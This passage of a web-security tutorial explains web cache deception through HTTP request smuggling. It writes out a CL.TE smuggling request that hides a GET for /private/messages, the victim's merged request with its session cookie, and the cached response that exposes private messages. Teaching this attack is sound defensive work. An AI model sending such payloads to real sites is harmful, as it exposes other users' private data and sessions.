 Is another variant of the Cache Poisoning. It works in a similar way to the web cache poisoning attack but has a different purpose.

- In Poisoning the attacker causes the app to store malicious content in the cache, and this is served from the cache to other app users.
- In Deception the attacker causes the app to store sensitive content belonging to another user in the cache, and the attacker retrieves this content.

So the attacker smuggles a request that returns sensitive user-specific content:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

So the next request from another user is forwarded to the backend will be appended to the smuggled one, including session cookies and other headers:

```http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

And then the backend processes the request for the user's private messages in the contenxt of the victim user's session. The frontend server caches this response against what it believes is the URL in the second request, which is /static/image.png:

```http
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```
